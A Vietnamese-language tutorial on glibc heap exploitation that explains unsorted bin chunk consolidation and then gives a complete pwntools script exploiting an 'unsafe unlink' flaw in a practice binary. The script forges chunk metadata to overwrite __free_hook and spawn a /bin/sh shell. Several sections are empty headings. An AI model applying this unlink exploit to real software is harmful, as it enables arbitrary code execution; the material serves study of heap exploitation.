









# Third Lesson: Unsafe Linking
>Trong bài viết này, mình sẽ tìm hiểu về những vấn đề sau:

- Unsorted bin và behavior bình thường của nó?

- Unsorted bin trong bản 2.30 đã không check cái gì?

- Primitive ta đạt được?

- Và cách chúng ta khai thác binary 1 cách cụ thể?

### Checksec

   

   

### Unsorted bin và behavior bình thường của nó?
- Unsorted bin là gì?

- Behaviour bình thường của nó?

  - Trước hết, ta hãy cùng xem qua binary demo:
     
     - Binary này sẽ giúp ta hiểu rõ cách 1 normal chunk được freed và consolidate ra sao:
        
          

      - Sau khi malloc lần lượt 2 chunk a và b, vốn là hai chunk có kích thước rất lớn, hai chunk này khi free thì sẽ không vào fastbin và chúng sẽ được chương trình coi là 1 'normal chunk': 
        
         

      - Khi ta tương tác với các chunk nhỏ, được quản lý bởi fastbins, ta sẽ không phải để ý tới việc top chunk có thể tương tác thế nào với chunk bên cạnh nó, hay là cách 2 chunk liền kề sau khi free sẽ được biểu diễn ra sao nếu như không vào, thì khi tương tác với 'normal chunk', ta sẽ phải biết tới khái niệm "chunk consolidate":
       
         
      
      - Có thể thấy, khi ta free chunk b, chunk b sẽ consolide vào top chunk, vì chunk B nằm gần top chunk.

      - Tuy nhiên, nếu lần này, ta malloc một chunk C để ngăn cách top chunk và chunk B: 
         
         

      - Và rồi ta free chunk A, vì chunk A không nằm cạnh top chunk, nên chunk A sẽ vào unsortedbins: 
         
         
      
      - Ta có thể thấy phần metadata+0x10 của chunk B giờ đang có `PREV_SIZE` là kích thước của chunk A, vậy ta có thể hiểu bk này là chứa size của chunk đã free sau nó.
      
      - Và vì chunk A đã vào bin, nên metadata + 0x10 và metadata + 0x18 của chunk này lần lượt được dùng làm back pointer và forward pointer và trỏ vào đoạn unsorted bins ở main_arena: 
       
         

      - Sau đó, khi ta free chunk B, có thể thấy chunk A và chunk B đã consolide vì lần này chunk B không còn ở ngay cạnh top chunk nữa: 
        
         

      -  Khi đó, kích thước của chunk A giờ đây là 121, và metadata+0x10 của chunk C giờ đây đang có `PREV_SIZE` là của chunk đằng trước nó, là chunk A

### Unsorted bin trong bản 2.30 đã không check cái gì?


### Primitive ta đạt được?

- Có thể thấy, vì chương trình đã không được compile vs NX, nên ta có thể inject shellcode của chúng ta vào và ép chương trình execute shellcode đó.

### Và cách chúng ta khai thác binary 1 cách cụ thể?

- I/O cơ bản của chương trình:
     - 

### Solve Code:

```python
#!/usr/bin/python3
from pwn import *

elf = context.binary = ELF("unsafe_unlink")
libc = ELF(elf.runpath + b"/libc.so.6") # elf.libc broke again

gs = '''
continue
'''
def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    else:
        return process(elf.path)

# Index of allocated chunks.
index = 0

# Select the "malloc" option; send size.
# Returns chunk index.
def malloc(size):
    global index
    io.send(b"1")
    io.sendafter(b"size: ", f"{size}".encode())
    io.recvuntil(b"> ")
    index += 1
    return index - 1

# Select the "edit" option; send index & data.
def edit(index, data):
    io.send(b"2")
    io.sendafter(b"index: ", f"{index}".encode())
    io.sendafter(b"data: ", data)
    io.recvuntil(b"> ")

# Select the "free" option; send index.
def free(index):
    io.send(b"3")
    io.sendafter(b"index: ", f"{index}".encode())
    io.recvuntil(b"> ")

io = start()

# This binary leaks the address of puts(), use it to resolve the libc load address.
io.recvuntil(b"puts() @ ")
libc.address = int(io.recvline(), 16) - libc.sym.puts

# This binary leaks the heap start address.
io.recvuntil(b"heap @ ")
heap = int(io.recvline(), 16)
io.recvuntil(b"> ")
io.timeout = 0.1

# =============================================================================

# Prepare execve("/bin/sh") shellcode with a jmp over where the fd will be written.
shellcode = asm("jmp shellcode;" + "nop;"*0x16 + "shellcode:" + shellcraft.execve("/bin/sh"))
shellcode_address = heap + 0x20

# Request 2 small chunks.
overflow = malloc(0x88)
victim = malloc(0x88)

# Prepare fake chunk metadata.
# Set the fd such that the bk of the "chunk" it points to is the free hook.
fd = libc.sym.__free_hook - 0x18

# Set the bk such that the fd of the "chunk" it points to is the shellcode.
bk = shellcode_address

# Set the prev_size field of the next chunk to the actual previous chunk size.
prev_size = 0x90

# Write the fake chunk metadata to the "overflow" chunk, store the shellcode there too.
# Overflow into the succeeding chunk's size field to clear the prev_inuse flag.
edit(overflow, p64(fd) + p64(bk) + shellcode + b"X"*(0x88 - (len(shellcode) + 0x18)) + p64(prev_size) + p64(0x90))

# Free the "victim" chunk to trigger backward consolidation with the "overflow" chunk.
free(victim)

# Free the "overflow" chunk to trigger system("/bin/sh").
free(overflow)

# =============================================================================

io.interactive()
```